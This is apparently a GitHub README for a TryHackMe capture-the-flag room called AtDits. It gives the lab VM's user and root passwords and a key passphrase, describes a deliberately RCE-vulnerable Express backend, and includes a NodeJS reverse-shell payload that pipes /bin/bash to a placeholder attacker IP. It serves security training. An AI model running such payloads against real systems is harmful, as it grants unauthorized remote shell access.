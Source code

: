 # thm_atdits
This repository holds or links to all the files needed to complete or recreate the TryHackMe room [AtDits](https://tryhackme.com/jr/atdits).

## Login Data for the VM
>User: paul  
>Password: SicheresPasswort

>User: root  
>Password: IchMagZuege!

>[Private Key](VM-Key/id_rsa) Passphrase  
>felix1


## Injection params for netcat
``` javascript
var net = require("net"), sh = require("child_process").exec("/bin/bash");
var client = new net.Socket();
client.connect(<Socket You are listenning on>, "<Your-IP>", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);
sh.stderr.pipe(client);});
```
## Short password list

The short [password list](passwordlist/rockyou.txt) is a list of around 200 passwords from the rockyou.txt list.  
It holds also the passophrase for the private key.

## VM
The VM is a Ubuntu Server 20.04 Image.  
It is in the `.ova` format and can be directly uploaded to TryHackMe.

File: [VM.ova](VM-Image/THM-ATdITS.ova)

## Backend
The backend is a simple NodeJS server with ExpressJS.
To run it, you need to have NodeJS installed.  
Then you can run `npm install` in the backend folder to install all the dependencies.
After that you can run `node app.js` to start the server.
The server will run on port 8080.

The server is based on this [example](https://github.com/appsecco/vulnerable-apps/tree/master/node-simple-rce) for RCE with ExpressJS.

## Frontend
The frontend is a VueJS app.
To run it, you need to have NodeJS installed.  
Then you can run `npm install` in the frontend folder to install all the dependencies.
After that you can run `npm run dev` to start the server.
The server will run on port 5173.

## Documentation
For further information, please read the [documentation](Documentation.md).